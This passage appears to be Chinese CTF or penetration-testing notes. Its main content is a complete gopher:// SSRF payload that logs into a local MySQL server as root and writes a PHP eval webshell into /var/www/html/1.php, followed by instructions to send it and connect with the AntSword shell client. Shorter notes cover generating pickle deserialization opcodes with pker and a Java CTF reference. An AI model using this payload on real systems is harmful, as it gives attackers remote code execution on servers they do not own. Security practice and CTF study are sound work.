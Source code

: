 生成内容为

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%49%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%63%6d%64%5d%29%3b%20%3f%3e%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%31%2e%70%68%70%27%3b%01%00%00%00%01
```

选中下面，右击 Convert Selection - URL-encode key characters

```
%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%49%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%63%6d%64%5d%29%3b%20%3f%3e%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%31%2e%70%68%70%27%3b%01%00%00%00%01
```

生成新的 url 发送。用蚁剑连接测试。

## pickle 反序列化

见 2021 中国能源网络信息安全大赛 ezpy
https://www.cnblogs.com/twosmi1e/p/15413391.html
https://www.freebuf.com/articles/web/291784.html

用 pker 生成的 opcodes
https://github.com/eddieivan01/pker

将下面写入 x 文件

```python
b = GLOBAL('__main__', 'b')
b.name = 'kleinor'
b.sex = 'kleinor'
b.age = 'kleinor'
people = INST('__main__', 'people', 'kleinor', 'kleinor', 'kleinor')
return people
```

`python3 pker.py < x`

脚本见 web_pickle_payload.py

# Java 项目

Java 项目 WEB-INF/web.xml 见[[ROARCTF 2019]EASY JAVA](https://www.freesion.com/article/9774220249/)
